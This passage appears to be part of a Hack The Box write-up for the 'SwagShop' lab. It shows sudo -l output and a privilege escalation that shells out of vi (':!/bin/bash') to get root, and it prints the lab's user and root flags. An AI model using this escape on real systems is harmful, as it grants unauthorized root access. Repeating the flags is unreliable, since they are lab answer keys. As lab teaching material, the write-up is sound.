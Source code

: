 Moving to `/home` there is a user named harris, and we can read their `user.txt`

`a448877277e82f05e5ddf9f90aefbac8`

Getting Root
------------

Going through our usual enumeration checklist, it turns out `www-data` has sudo permissions to use `vi` in `/var/www/html/*`

`sudo -l`
```
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Searching on [GTFOBins](https://gtfobins.github.io/), there is a method to get a shell through `vi`. By running `vi` on any file in `/var/www/html`, we can then execute `/bin/bash` inside of `vi`

- `sudo vi /var/www/html/index.php`
- `:!/bin/bash`

```
root@swagshop:/var/www/html# whoami
whoami
root
```

Reading `root.txt` gives us the flag, and a secret

```
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```
